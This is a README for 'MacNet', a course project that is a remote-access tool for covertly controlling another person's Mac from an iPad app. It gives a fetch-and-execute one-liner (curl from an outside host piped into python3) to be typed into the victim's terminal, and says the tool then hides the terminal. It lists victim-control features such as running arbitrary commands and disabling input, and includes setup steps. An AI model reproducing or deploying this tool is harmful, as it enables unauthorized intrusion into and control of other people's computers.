 Final Project For NYU's Computer Information Systems: Cyber Defense course.

# MacNet Control Panel 

MacNet is a piece of software that allows you to remotely control someone else's Mac computer using an iOS control panel. To gain control of their computer, all you have to do is type the simple command `curl https://macnetback-nylr.c9users.io/getc | python3` into their terminal. The program will automatically hide the terminal, and you will have full access.


![App Logo](https://i.imgur.com/8G4LV6b.png)


# Core Features

- The dark screen at the top of the page allows you to tap any location and control the position of the mouse on the victim's computer 
- The OpenURL form allows you to open any URL on the victim's default browser 
- The create Alert form allows you to send an alert to the victim's computer (it will display from "Finder") 
- The execute form allows you to execute any command in the user's terminal 
- The volume slider allows you to change the volume on the user's computer 
- The "Disable" button allows you prevent the user from controlling their computer 
- The "Sleep" button forces the victim's computer to sleep


![Interface](https://i.imgur.com/fe7dKZw.png)

# Setup

- Clone this repository 
- Open the `MacNet` folder, and run the Xcode project. This is the client you will use to control the victim's computer, and no additional setup should be necessary.
  - Note: the program is only optimized to run on the iPad Pro 10.5 inch. Use other devices/simulators at your own risk.
- The `djangosrc` folder contains all of the server-side logic. 90% of the code I wrote can be found in `djangosrc/api/views.py`, and the rest is simply regex to handle URLs and files that are automatically generated by Django.
   - If you want to run this code, you will need Django version `1.9`. The latest release of the framwork (2.0) will **not** work.
- If you choose to set up the project yourself, you will also obviously need to change the URL that you `curl` on the victim's computer, and the URLs that the Xcode project makes requests to when communicating with the server. 

